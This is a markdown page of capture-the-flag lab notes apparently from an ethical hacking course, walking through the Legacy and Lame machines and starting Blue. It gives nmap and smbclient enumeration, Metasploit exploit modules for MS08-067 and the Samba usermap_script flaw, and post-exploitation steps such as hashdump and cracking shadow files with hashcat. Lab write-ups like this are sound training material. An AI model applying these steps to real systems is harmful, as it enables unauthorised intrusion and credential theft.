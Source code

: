 
<head>      
    <link rel="stylesheet" href="css/retro.css">
</head>

## Misc Writeups
----
### Summary

All systems covered in the section 12 'Mid-Course Capstone' (https://www.udemy.com/course/practical-ethical-hacking/learn/lecture/17398048#content)

----
#### Walkthrough - Legacy (Windows XP)
* nmap -A -T4 -p- 10.10.10.4
    * 139/145 are open (SMB)
* smbclient -L \\\\10.01.10.4\\ 
    * no connection
* msfconsole
    * search smb_version
    * use auxiliary/scanner/smb/smb_version
        * options: set rhosts 10.10.10.4
        * run / exploit
* google 'smb windows xp sp3 exploit' 
    * https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi
* msfconsole 
    * use exploit/windows/smb/ms08_067_netapi
        * options: set rhosts 10.10.10.4
        * run
    * meterpreter shell
        * getuid
        * route
        * ipconfig 
        * getsystem (priv escalation if not su)
        * hashdump (get be cracked offiline)
        * get CTFs     
---
####   Walkthrough - Lame (Ubuntu)
* nmap -A -T4 -p- 10.10.10.3
* scanning methods:
    * nmap (quick scan -> nmap -A -T4 -p- 10.10.10.3)
    * nmap (remove -A (speed killer). Then re-scan the specific ports only that have returned opened use hte -p switch)
* open ports
    * 21 FTP Anonymous Login allowed (the eploxit requires uploading a file and executinng a file)
    * 22 SSH (brute force or credentials gathering)
    * 139/445 netbios-ssn (SMB most likely )
    * 3632 distccd 
* smbclient -L \\\\10.01.10.3\\ 
    * Folder structure found!
* google: Samba 3.0.20-Debian (Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)
    * https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script
* msfconsole 
    * msf > use exploit/multi/samba/usermap_script
        * options: set rhosts 10.10.10.3
        * run
    * meterpreter shell:
        * getuid (root)
        * getsystem (no priv escalation)
        * get CTFs  
* review: Cracking Linux Password Hashes with Hashcat - https://www.youtube.com/watch?v=eq097dEB8Sw&feature=youtu.be 
    * look at shadow file
    * unshadow shadow file
    * crack passwords with hashcat
---
####   Walkthrough - Blue 
* nmap -A -T4 -p- 10.10.10.40
---
